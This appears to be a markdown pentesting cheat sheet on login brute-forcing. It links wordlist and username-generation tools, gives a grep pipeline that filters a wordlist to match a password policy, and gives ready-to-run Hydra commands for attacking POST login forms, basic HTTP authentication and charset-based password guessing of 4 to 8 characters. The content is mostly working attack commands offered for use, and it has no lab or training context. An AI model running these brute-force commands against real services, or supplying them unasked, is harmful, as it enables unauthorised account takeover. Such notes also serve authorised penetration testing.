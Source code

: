 # Login bruteforcing
- [SecLists](https://github.com/danielmiessler/SecLists)
- [SecLists Kali page](https://www.kali.org/tools/seclists/)
- [CUPP](https://github.com/Mebus/cupp)
- [Username anarchy](https://github.com/urbanadventurer/username-anarchy)


## Rule filtering
```
grep -E '^.{6,}$' wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > wordlist-filtered.txt
```

## Hydra
- [Hydra Kali page](https://www.kali.org/tools/hydra/)

### POST web form
```bash
hydra -l admin -P passwords.txt <host> http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```
```bash
hydra -l admin -P passwords.txt <host> http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```

### Basic http auth
```bash
hydra -L usernames.txt -P passwords.txt <host> http-get
```

### Bruteforce without wordlist
Password range from 4 to 8 in length, all characters and numbers
```bash
hydra -l admin -x 4:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 <host> # ...
```